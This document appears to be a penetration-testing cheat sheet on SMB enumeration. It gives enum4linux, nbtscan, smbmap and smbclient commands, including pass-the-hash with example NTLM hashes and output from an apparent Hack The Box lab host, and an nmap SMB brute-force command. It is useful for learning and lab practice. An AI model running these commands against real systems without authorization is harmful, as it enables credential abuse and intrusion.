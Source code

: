 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX

`enum4linux (TARGET IP)`

## NBTScan

```nbtscan (TARGET IP ADDRESS)```

## SMBMap
The basic syntax fo `smbmap` is as follows,
```smbmap -H (TARGET IP ADDRESS)```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
wnl8:/pwnt/windows/smbmap# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
SMBClient is very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samba (LINUX)/Windows shares.

Sometimes, it is required to specify the SMB version number using the `-m smb(n)` argument for the NT service to allow a connection.

### Target information
Attempt to mapp the share without any credentials,

```smbclient -N -L (TARGET IP)```

### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,

`get "filename with or without spaces.txt"`

## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,

`nmap --script smb-brute.nse -p445 (TARGET IP)`
